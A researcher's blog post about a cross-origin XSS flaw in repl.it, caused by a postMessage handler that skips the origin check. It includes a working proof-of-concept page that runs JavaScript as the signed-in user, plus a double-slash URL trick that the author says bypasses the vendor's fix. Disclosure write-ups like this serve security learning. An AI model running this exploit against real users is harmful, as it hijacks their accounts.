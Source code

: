 ```yaml
---
layout: post
title: Repl.it XSS
---
```


I recently found a rather interesting, non-traditional XSS vulnerability in [repl.it](https://repl.it). I was inspired to try this after reading a [writeup](https://github.com/koczkatamas/gctf19/tree/master/pastetastic) for Pastetastic from Google CTF 2019, which showed off some really cool cross-origin stuff with iframes.

In case you're not familiar with repl.it, it's basically an online IDE with tons of features, including website hosting. Each program you make runs in its own environment called a "repl."

While messing around with how different features worked, I discovered that repls for static sites (HTML, CSS, JS) were previewed in a few nested iframes. Specifically, the site preview consisted of an iframe of [https://replbox.repl.it/public/secure/](https://replbox.repl.it/public/secure/), which contained a blank iframe manipulated by its parent, which was modified to contain an iframe pointing to the URL where the static files are hosted:

```
https://replbox.repl.it/data/web_hosting_1/<username>/<repl_name>/
```

I'm actually going to take a little detour and look at something interesting with the sandboxing of that data iframe: 

```javascript
sandbox="allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-modals"
```

If this was done correctly, it would prevent the iframe containing user content from messing with the top window's location since the `allow-top-navigation` option is not set. However, the `allow-same-origin` attribute means it is not sandboxed from accessing windows that are also on `replbox.repl.it`, and it just so happens the parent two levels up (the ironically named `/public/secure` page) is both on the same origin and not sandboxed. This means the location of the top window, `repl.it`, can be modified with something like:

```javascript
window.parent.parent.eval("top.location.href = 'https://kmh.zone'")
```

An arbitrary redirect isn't a particulary high severity vulnerability, but it obviously goes against the intent of the authors of the code, and shows that cross-origin frame stuff is very weird.

Now let's start looking at the actual XSS vulnerability. The `/public/secure` page imports a script, [runner.js](https://replbox.repl.it/public/secure/runner.js). After some variable renaming and refactoring, the important part of the code looks like this:

```javascript
var listeners = { load: s, evaljs: a, html: i };
var secret;
window.addEventListener("message", function(event) {
	var req = JSON.parse(event.data);
	if (req.secret) {
		if (secret || "handshake" !== req.type) {
			if (req.secret !== secret) return;
			if (!listeners[req.type]) 
				throw Error("No listeners for event:"
                                             + req.type);
			listeners[req.type](req.data);
		} else secret = req.secret;
	}
})
```

There's a pretty glaring issue here &mdash; the message handler doesn't check the origin. This means we can stick this in an iframe in our own site and send any messages we want, including `evaljs` (which, per it's name, evaluates JavaScript).

So this gives us full code execution on `replbox.repl.it`. The thing is that this is kind of useless; there is a session cookie on that domain, but I couldn't see anything it authenticated for. I messed around for a while trying to find stuff like a path I could host a service worker on, but all the user controlled content was under directories based on username and repl name.

As I continued to mess around, I started to notice the similarities between the API on `repl.it` and `replbox.repl.it`: they both had `/data` routes, they both had `/public` routes, and the 404 pages were the same. Eventually I realized that if I set my session cookie to be the same on `replbox.repl.it` as `repl.it`, I could access the authenticated API routes. Then I had an idea &mdash; what if there was `/public/secure/` on `repl.it`? And lo and behold, there it was! I had arbitrary JavaScript execution on the main domain. I quickly wrote up a proof of concept that created a repl as the currently signed in user:

```html
<iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
<script>
function createRepl(){
	var xhr = new XMLHttpRequest();
	xhr.open("POST", 'https://repl.it/data/repls/new');
	xhr.setRequestHeader("Content-Type", "application/json");
	xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
}
setTimeout(function() {
	repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
	setTimeout(function() {
		repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
		setTimeout(function() {
			repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
			setTimeout(function() {
				location.href = "https://repl.it/repls"
			}, 20000000)
		}, 200)
	}, 200);
}, 200);
</script>
```
I contacted the repl.it team on Discord, and after waiting a bit, I got a reply and it was forwarded over to the engineering team. Now, according to their [security page](https://repl.it/site/docs/misc/security), they "work with you to fix the issue and then we will credit you on our blog." After the initial report, they gave me a year long free "hacker" plan, and I didn't hear from them again.

I noticed a bit later that they pushed a "fix" to the issue by redirecting from

```
https://repl.it/public/secure/
```

to

```
https://replbox.repl.it/public/secure/
``` 

However, in my toolkit of random things that sometimes work, I had a trick that was the intended solution for a problem I wrote for [ångstromCTF 2019](https://kmh.zone/blog/2019/04/24/angstromctf-2019.html#dom-validator): there are often inconsistensies in how having multiple slashes in a URL is handled. Some web servers collapse them, some don't.

In this case, it seems like however they are matching the redirect does not collapse multiple slashes, but the reverse proxy to the API does. This means that you can go to [https://repl.it/public//secure/](https://repl.it/public//secure/) and still get full code execution on the `repl.it` domain. Since they never contacted me to verify whether it was fixed, I had no way or reason to let them know. Oh well.
